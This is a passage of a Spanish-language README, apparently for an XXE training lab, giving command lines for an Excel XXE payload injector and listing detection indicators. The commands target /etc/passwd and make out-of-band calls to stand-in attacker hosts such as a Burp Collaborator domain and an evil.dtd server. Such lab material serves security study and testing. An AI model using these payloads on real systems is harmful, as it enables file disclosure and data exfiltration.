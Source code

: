 ## 🎯 Tipos de Payloads XXE para Probar

### 1. HTTP Request (Burp Collaborator)
```bash
python3 xxe_excel_injector.py -i input.xlsx -o http_test.xlsx \
  -u http://abc123.burpcollaborator.net
```

### 2. File Inclusion
```bash
python3 xxe_excel_injector.py -i input.xlsx -o file_test.xlsx \
  -u /etc/passwd -t file
```

### 3. Different Target Files
```bash
# Apuntar a sheet1.xml en lugar de workbook.xml
python3 xxe_excel_injector.py -i input.xlsx -o sheet_test.xlsx \
  -u http://collaborator.com -f xl/worksheets/sheet1.xml
```

### 4. Out-of-Band (OOB)
```bash
python3 xxe_excel_injector.py -i input.xlsx -o oob_test.xlsx \
  -u http://your-server.com/evil.dtd -t oob
```

## 🔍 Análisis de Resultados

La aplicación web mostrará:

### Indicadores XXE Detectados
- `DOCTYPE declaration found`
- `Entity declaration found`
- `SYSTEM entity with URI: [URL]`
- `XXE entity reference found`
- `Suspicious entity reference pattern detected`

### Información Mostrada
- Contenido XML procesado
- Metadatos del archivo
- Estructura de las hojas
- Estadísticas de procesamiento
- Errores y warnings

## 🛡️ Vulnerabilidades Implementadas

### XXE en process.php
